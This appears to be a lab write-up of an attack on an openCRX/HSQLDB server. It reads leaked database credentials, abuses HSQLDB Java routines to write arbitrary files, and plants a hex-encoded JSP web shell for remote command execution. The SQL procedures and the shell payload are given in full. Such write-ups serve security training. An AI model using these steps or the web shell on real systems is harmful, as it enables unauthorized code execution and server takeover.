

## The Problem
Now that we have the credentials for the apache users, our first instinct might be to go after the Tomcat Manager application and try to deploy a malicious WAR file.
However, browsing the tomcat manager application, we see that the application restricts the access to localhost:


## Workaround
To get a shell on the system we can use the java File class to reference files and directories.
We will modify our payload to reference directories instead of files, and see if it returns any interesting directories.
Referencing the /home/student/crx/ directory:


We see the data directory, exploring further, we see the hsqldb data directory which has a file dbmanager.sh, with credentials to a database:


We get the credentials sa and manager99.
These seem to be credentials for the system administrator.
However, we need to understand where to use these credentials.

HSQLDB, is a java database.
HSQLDB servers rely on Access Control Lists (ACLs) or network layer protections to restrict access beyond usernames and passwords. We can read the crx.properties file to determine if any ACLs are defined within HSQLDB itself.

Since the dbmanager.sh file points to localhost port 9001, we can do a simple Nmap scan to see if the port is open or closed publicly:


We see that the database is indeed running on port 9001.
We can try to connect to it using the hsqldb database manager with the following command:

```sh
java -cp hsqldb.jar org.hsqldb.util.DatabaseManagerSwing --url jdbc:hsqldb:hsql://opencrx:9001/CRX --user sa --password manager99
```


## Java Language Routines
We can call static methods of a Java class from HSQLDB using Java Language Routines.
Like any Java program, the class needs to be in the application's classpath.

JRTs can be defined as functions or procedures.
Functions can be used as part of a normal SQL statement if the Java method returns a variable.
However, If the Java method we want to call returns _void_, we need to use a procedure.

## Getting Remote Code Execution
To attain remote code execution, we can create a proof-of-concept function that enables us to check system properties by calling the Java System.getProperty() method.
The method call is relatively simple - it takes in a String value and returns a String value.

We will create the function with the following command:

```sql
CREATE FUNCTION systemprop(IN key VARCHAR) RETURNS VARCHAR 
	LANGUAGE JAVA 
	DETERMINISTIC NO SQL
	EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

We create a function named systemprop, which takes in a 'key' value as varchar, and returns a varchar.
Next, we tell the database to run the function as java.
And finally, we specify that we want the function to run the getProperty method of the java.lang.System class.

With the function created we need to call it.
We can call a function using a 'VALUES' clause. We can use the function to identify the class path of the HSQLDB process.
We can use the following command:

```SQL
VALUES(systemprop('java.class.path'))
```

Running the command we see the result:


The class path is hsqldb.jar
If we want to use a function or procedure to do anything malicious, we'll need to find a suitable method in hsqldb.jar or the core Java JAR files.
We have the following restrictions:
1.  The method must be static.
2.  The method parameters must be primitives or types that map to SQL types.
3.  The method must return a primitive, an object that maps to a SQL type, or _void_.
4.  The method must run code directly or write files to the system.

To look for methods that we can use, we will be using the rt.jar file which contains all of the compiled class files for the base JRE.
The rt.jar file is only available in java version 9 and prior, thus we will transfer it from the /usr/lib/jvm/java-8-openjdk-amd64/jre/lib/ directory, from the victim machine.
We will open the rt.jar file in jd-gui, use save all sources to extract the code in a zip file, unzip the file, and open the folder with vscode.
This will allow us to use the search functionality to look for method calls that we can use maliciously.
We will use the following string to search:

```Regex
public static void \w+\(String
```

This search string will let us find any methods that are public, static, return void, and take a String as their first parameter.
We get 215 results, and going through them the most interesting one is _com.sun.org.apache.xml.internal.security.utils.JavaUtils_ class's writeBytesToFilename method:


This method seems to meet our criteria. It returns void, so we can call it from a procedure.
To use the method, we need to pass in a string and a byte array.
The method creates a file using the string value and then writes the byte array to the file.

To use the method, we will create a new procedure.
We'll use VARCHAR for the paramString parameter, and VARBINARY, for the paramArrayOfByte parameter.
We will set the VARBINARY field to 1024, to give enough room to our payload.

The SQL statement would be as follows:

```SQL
CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024)) 
	LANGUAGE JAVA 
	DETERMINISTIC NO SQL
	EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

Next, we will invoke the procedure using the CALL statement.
We'll provide the string test.txt, and give our payload "test" in hex value as follows:

```SQL
CALL writeBytesToFilename('test.txt', cast ('74657374' AS VARBINARY(1024)))
```

Executing the statement, we find the test.txt file in the working directory:


## Finding the Write Location
Now that we can write files on the server. 
We can try to upload a binary, but have no way to run it.
However, If we knew where JSP files were stored on the server, we could potentially write our own JSP into that directory and access it with our browser.

For this, we will use one of kali's inherent jsp webshell, convert it to hex, and upload it using the writeBytesToFilename procedure with the relative path to the web application's web root:

```SQL
CALL writeBytesToFilename('../../apache-tomee-plus-7.0.5/apps/opencrx-core-CRX/opencrx-core-CRX/shell.jsp', cast('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20726571756573742e676574506172616d657465722822636d6422293b0a202020537472696e67206f7574707574203d2022223b0a0a202020696628636d6420213d206e756c6c29207b0a202020202020537472696e672073203d206e756c6c3b0a202020202020747279207b0a20202020202020202050726f636573732070203d2052756e74696d652e67657452756e74696d6528292e6578656328636d64293b0a2020202020202020204275666665726564526561646572207349203d206e6577204275666665726564526561646572286e657720496e70757453747265616d52656164657228702e676574496e70757453747265616d282929293b0a2020202020202020207768696c65282873203d2073492e726561644c696e6528292920213d206e756c6c29207b0a2020202020202020202020206f7574707574202b3d20733b0a2020202020202020207d0a2020202020207d0a202020202020636174636828494f457863657074696f6e206529207b0a202020202020202020652e7072696e74537461636b547261636528293b0a2020202020207d0a2020207d0a253e0a0a3c7072653e0a3c253d6f757470757420253e0a3c2f7072653e' as VARBINARY(1024)))
```

With the file uploaded:


We can use a curl command to check if we have command execution or not:



We get code execution. With this we can proceed to get a shell on the system as well.